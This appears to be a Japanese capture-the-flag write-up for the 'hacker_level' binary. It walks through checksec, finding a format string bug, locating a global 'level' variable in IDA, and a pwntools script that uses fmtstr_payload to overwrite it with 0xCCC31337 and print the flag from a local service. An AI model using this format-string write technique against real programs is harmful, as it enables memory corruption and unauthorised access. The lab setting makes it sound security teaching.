


# hacker level writeup

## バイナリを調べる
> $ file hacker_level  
hacker_level: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=29288494155b99bcb97cd3af0961c9a34d307be2, not stripped  

32bitバイナリですね。IDAで開けそう。

> gdb-peda$ checksec  
CANARY    : ENABLED  
FORTIFY   : disabled  
NX        : ENABLED  M
PIE       : disabled  
RELRO     : Partial  

まぁ普通のやつっすね。

## プログラムの挙動
> $ ./hacker_level  
What's your name? segfo%d  
Hello, segfo64  
Sorry, you're not leet enough to get the flag :(  
Your hacker level is: 0x266d  
$  

フォーマットストリングバグ(FSB)に対して攻撃出来そう。  
別の入力値ではどうなるか  

> $ ./hacker_level  
What's your name? hogeh%d  
Hello, hogeh64  
Sorry, you're not leet enough to get the flag :(  
Your hacker level is: 0x3406  

入力文字列によって your hacker level is の数値が変わっている。  

## IDAで見てみる
  
入力が上のリストで
出力・分岐が下のリスト

> cmp     ds:level, 0CCC31337h  

どうやらこの条件で分岐しているらしい。  
グローバル変数のlevelに0x0ccc31337が入っているときにフラグを読み取れる。  
フォーマットストリング経由で書き換えできるので  
level変数を0x0ccc31337に書き換えてしまえばいい。  

## アドレスを調べる
levelを書き換えるといってもアドレスを知らないといけないので、levelのアドレスを調べる



0x0804A04Cにあるらしい。
じゃあここを書き換えよう。

## exploit
```#!/usr/bin/python
from pwn import *
# *0804A04C = 0xCCC31337をFSBでしたい

# まずは次の1行のコードで
# *(int*)0x0804A04C = 0xCCC31337
# こんなことをやろうと思ったが失敗
#writes = {0x0804A04C:0xCCC31337}

# デバッガで見たところ、0x7070707を引いた値になっていたので、足してやる。
writes = {0x0804A04C:0xCCC31337+0x7070707}

# ペイロードの生成
payload = fmtstr_payload(7,writes,numbwritten = 7)
# 接続
r = remote("localhost",11111)
r.write(payload+'\n')
# フラグの受信と表示(たまに表示するのを忘れて  
# フラグでねーぞ？ってなるので注意ですね)  
print r.recvall()
r.close()
```
本物のフラグは手元になかったので、  
一先ずバイナリと同じディレクトリに flag.txt を置いて  
そのファイルに書いたデータと同じものが取れたら成功です。
